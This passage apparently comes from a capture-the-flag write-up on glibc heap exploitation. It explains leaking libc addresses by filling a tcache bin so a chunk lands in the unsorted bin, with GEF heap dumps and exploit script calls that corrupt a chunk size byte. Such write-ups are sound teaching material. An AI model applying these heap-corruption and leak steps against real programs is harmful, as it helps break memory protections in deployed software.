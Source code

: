 ## Leaking Libc Addresses:

Unfortunately, leaking heap addresses is not especially useful in this case. There is nothing especially useful on the heap in this case, and since PIE is enabled for the binary, I can't focus on the code section either. As a result, I need to get a leak for a more useful section. Specifically, I can do this by filling up a specific tcache bin. tcache bins are limited to 7 in length; once a tcache bin is filled, freed chunks size 0x80 or smaller go to a fastbin, and larger freed chunks go to an unsorted bin. If a chunk goes to the unsorted bin, the fd and bk pointers are set to libc addresses, which we could leak as described above.

So, all I need to do is carefully create and remove questions to specifically ensure that chunk c ends up in the unsorted bin with a libc address in the fd pointer, then leak it just like we leaked the heap address above.
```
gef➤  x/20gx 0x000055d10bad3260
0x55d10bad3260: 0x3030303030303030      0x3030303030303030
0x55d10bad3270: 0x3030303030303030      0x0000000000000051
0x55d10bad3280: 0x6565656565656565      0x6565656565656565
0x55d10bad3290: 0x6565656565656565      0x0a65656565656565
0x55d10bad32a0: 0x00007f5b5e76aca0      0x00007f5b5e76aca0
0x55d10bad32b0: 0x6363636363636363      0x6363636363636363
0x55d10bad32c0: 0x6363636363636363      0x6363636363636363
0x55d10bad32d0: 0x6363636363636363      0x6363636363636363
0x55d10bad32e0: 0x6363636363636363      0x6363636363636363
0x55d10bad32f0: 0x6363636363636363      0x6363636363636363
gef➤  heap bins
─────────────────────────────────────────────── Tcachebins for thread 1 ───────────────────────────────────────────────
Tcachebins[idx=8, size=0xa0] count=7  ←  Chunk(addr=0x55d10bad3700, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x55d10bad3660, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x55d10bad35c0, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x55d10bad3520, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x55d10bad3480, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x55d10bad33e0, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x55d10bad3340, size=0xa0, flags=)
────────────────────────────────────────── Fastbins for arena 0x7f5b5e76ac40 ──────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
─────────────────────────────────────── Unsorted Bin for arena '*0x7f5b5e76ac40' ───────────────────────────────────────
[+] unsorted_bins[0]: fw=0x55d10bad3290, bk=0x55d10bad3290
 →   Chunk(addr=0x55d10bad32a0, size=0xa65656565656560, flags=PREV_INUSE|NON_MAIN_ARENA)
[+] Found 1 chunks in unsorted bin.
```
```
create_question(0x18, b'a' * 0x18)
create_question(0x18, b'b' * 0x18)
create_question(0x98, b'c' * 0x98)
create_question(0x98, b'd' * 0x98)
create_question(0x98, b'e' * 0x98)
create_question(0x98, b'f' * 0x98)
create_question(0x98, b'g' * 0x98)
create_question(0x98, b'h' * 0x98)
create_question(0x98, b'i' * 0x98)
create_question(0x98, b'j' * 0x98)
modify_question(0, b'0' * 0x18 + b'\x51')
remove_question(1)
remove_question(3)
remove_question(4)
remove_question(5)
```